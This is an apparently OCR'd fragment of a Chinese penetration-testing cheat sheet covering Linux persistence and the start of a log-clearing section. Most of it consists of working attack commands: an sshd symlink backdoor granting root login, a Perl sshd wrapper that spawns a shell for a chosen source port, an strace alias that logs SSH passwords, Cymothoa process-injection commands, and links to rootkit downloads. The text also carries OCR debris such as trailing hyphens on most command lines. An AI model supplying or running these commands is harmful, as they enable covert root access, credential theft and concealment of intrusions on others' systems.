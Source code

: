 #!bash-
ln -sf /usr/sbin/sshd /tmp/su; /tmp/su -oPort=2333;-

链接：ssh [root@192.168.206.142](mailto:root@192.168.206.142) -p 2333

##### SSH Server wrapper


#!bash-
cd /usr/sbin-
mv sshd ../bin-
echo '#!/usr/bin/perl' >sshd-
echo 'exec "/bin/sh" if (getpeername(STDIN) =~ /^..4A/);' >>sshd-
echo 'exec {"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd-
chmod u+x sshd-
//不用重启也行-
/etc/init.d/sshd restart-
socat STDIO TCP4:192.168.206.142:22,sourceport=13377-

##### SSH keylogger

vim当前用户下的.bashrc文件,末尾添加

#!bash-
alias ssh='strace -o /tmp/sshpwd-\`date '+%d%h%m%s'\`.log -e read,write,connect -s2048 ssh'-

source .bashrc

##### Cymothoa\_进程注入backdoor


./cymothoa -p 2270 -s 1 -y 7777-
nc -vv ip 7777-

##### rootkit

*   [openssh\_rootkit](http://core.ipsecs.com/rootkit/patch-to-hack/0x06-openssh-5.9p1.patch.tar.gz)
*   [Kbeast\_rootkit](http://core.ipsecs.com/rootkit/kernel-rootkit/ipsecs-kbeast-v1.tar.gz)
*   Mafix + Suterusu rootkit

##### Tools

*   [Vegile](https://github.com/Screetsec/Vegile)
*   [backdoor](https://github.com/icco/backdoor)

# 14.痕迹清理

### [Windows日志清除](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E6%97%A5%E5%BF%97%E7%9A%84%E5%88%A0%E9%99%A4%E4%B8%8E%E7%BB%95%E8%BF%87)

#### 获取日志分类列表：


wevtutil el >1.txt-
